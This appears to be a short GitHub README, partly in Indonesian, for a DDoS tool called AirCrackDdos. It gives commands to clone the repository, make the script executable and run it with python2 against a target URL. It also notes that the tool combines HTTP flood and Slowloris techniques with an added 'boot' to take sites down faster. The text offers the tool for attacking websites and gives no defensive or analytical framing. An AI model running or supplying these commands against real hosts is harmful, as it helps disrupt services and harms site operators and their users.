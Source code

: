 # DDoS Attack

- Cara Install dan Ddos
------
```
$git clone https://github.com/R00TD4nZ/AirCrackDdos
$cd AirCrackDdos
$chmod +x AirCrackDdos.py
$python2 AirCrackDdos.py
$python2 AirCrackDdos.py http://target.com
```
- Note
Script ini Dari Httpflood dan Slowloris saya hanya Menambah Boot ddos agar lebih terasa dan cepat down

